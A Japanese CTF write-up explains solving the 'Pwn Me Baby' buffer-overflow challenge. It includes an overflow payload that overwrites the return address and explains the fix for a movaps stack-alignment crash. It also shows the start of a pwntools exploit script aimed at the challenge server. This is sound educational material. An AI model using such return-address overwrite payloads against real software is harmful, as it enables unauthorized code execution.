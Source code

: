しかし、この攻撃コードを入力すると下記のようにセグフォエラーが発生するのみです。
なにか意図しないメモリエラーが起きています。

```bash
root@pve:~/ctf/fullweakctf/pwnmebaby/dist# echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\x10\x18\x40\x0\x0\x0\x0\x0" | ./main
I will receive a message and do nothing else:Segmentation fault
```


https://zenn.dev/koufu193/articles/b0aa6291d5655c#pwn-me-baby(pwn%2C-beginner)

作問者の方による Writeup では以下のように書かれています。
これはどういうことなのでしょうか。

> これはアライメントの問題なので RSP が 16 の倍数になるような命令が実行されるように調整する。
> echo -e "AAAAAAAAAAAAAAAAAAAAAAAA\x11\x18\x40\x00\x00\x00\x00\x00"|./main I will receive a message and do nothing else:fwectf{fake_flag}

この問題の解決方法については下記 note を参照ください。
簡易的にまとめると以下です。

- https://uchan.hateblo.jp/entry/2018/02/16/232029
  - x86-64 では、メモリと XMM0 レジスタでやりとりする命令を呼び出すとき rsp が 16byte 境界にあることを期待する
- flag 関数の 1 行目の命令で `push %rbx` がおこなわれ、 rsp が 8byte sub される
  - このとき、 rsp が 16byte 境界でなくなる
  - その状態で movaps 命令が実行されてしまいセグフォエラーが発生する

https://note.ganyariya.dev/05_CTF/(Full-Weak-Engineer-CTF-2025)-Pwn-Me-Baby-%E3%82%92%E5%AD%A6%E3%81%B3%E3%81%AA%E3%81%8C%E3%82%89%E8%A7%A3%E3%81%8F#%E3%82%BB%E3%82%B0%E3%83%95%E3%82%A9%E3%82%A8%E3%83%A9%E3%83%BC%E3%82%92%E8%A7%A3%E6%B1%BA%E3%81%97%E3%83%95%E3%83%A9%E3%82%B0%E3%82%92%E7%8D%B2%E5%BE%97%E3%81%99%E3%82%8B

```bash
Dump of assembler code for function flag:
=> 0x0000000000401810 <+0>:     push   %rbx
   0x0000000000401811 <+1>:     pxor   %xmm0,%xmm0
   0x0000000000401815 <+5>:     xor    %esi,%esi
   0x0000000000401817 <+7>:     xor    %eax,%eax
   0x0000000000401819 <+9>:     lea    0x9281a(%rip),%rdi        # 0x49403a
   0x0000000000401820 <+16>:    add    $0xffffffffffffff80,%rsp
   0x0000000000401824 <+20>:    movaps %xmm0,(%rsp)
```

よって、 push %rbx が実行されないように、 scanf で入力するアドレスを 1 つずらせばよいです。

```bash
root@pve:~/ctf/fullweakctf/pwnmebaby/dist# echo -e "aaaaaaaaaaaaaaaaaaaaaaaa\x11\x18\x40\x0\x0\x0\x0\x0" | ./main
I will receive a message and do nothing else:fwectf{fake_flag}
I will receive a message and do nothing else:Segmentation fault (core dumped)
```

pwntools を使う、かつ ROP 攻撃のパターンも note に記載しているので興味あるかたはご参照ください。

```py
#!/usr/bin/env python3
from pwn import *

main_path = './main'

if len(sys.argv) == 1:
        p = remote('chal2.fwectf.com', 8000)
else:
        p = process(main_path)

elf = ELF(main_path)

# ret 命令のアドレス
ret_addr = 0x401016
flag_addr = elf.symbols['flag']
```
